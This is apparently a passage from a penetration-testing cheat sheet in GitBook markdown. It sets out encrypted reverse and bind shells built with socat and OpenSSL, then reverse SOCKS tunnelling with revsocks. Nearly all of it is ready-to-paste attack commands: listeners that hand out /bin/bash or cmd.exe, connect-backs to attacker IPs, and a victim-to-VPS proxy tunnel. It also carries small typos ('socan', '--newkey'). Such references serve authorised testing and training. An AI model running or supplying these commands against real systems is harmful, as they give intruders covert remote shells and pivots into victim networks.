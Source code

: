 {% tab title="Encrypted shells" %}
{% code overflow="wrap" %}
```bash
openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt # create self-signed cert
cat bind_shell.key bind_shell.crt > bind_shell.pem # convert them to a format socan can accept
sudo socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash # listener
socat - OPENSSL:10.11.0.4:443,verify=0

# Certificate generation on the attacker machine
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
# Then fill info in blank. 
# After that, We need to merge the two created files into a single .pem file:
cat shell.key shell.crt > shell.pem
# Now, when we set up our reverse shell listener, we use:
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -
# To connect back, we would use:
socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash
# The same technique would apply for a bind shell:
# Target:
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes
# Attacker:
socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -
# Example with tty shell port 53 listener
socat OPENSSL-LISTEN:53,cert=encrypt.pem,verify=0,FILE:`tty`,raw,echo=0
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Revsocks

Reverse tunnel + SOCKS 5 proxy on Firefox using Foxy Proxy

{% code overflow="wrap" %}
```bash
# Download the release for both OS attacking and victim
https://github.com/kost/revsocks/releases/tag/v1.1.0

# Listen on the server and create a SOCKS 5 proxy on port 1080
user@VPS$ ./revsocks -listen :8443 -socks 127.0.0.1:1080 -pass Password1234

# Connect client to the server
user@PC$ ./revsocks -connect 10.10.10.10:8443 -pass Password1234

#Configure SOCKS 5 proxy on Firefox using Foxy Proxy
https://support.ipvanish.com/hc/en-us/articles/360001410573-How-to-Configure-the-SOCKS5-Proxy-in-Firefox-
```
{% endcode %}

## Proxychains
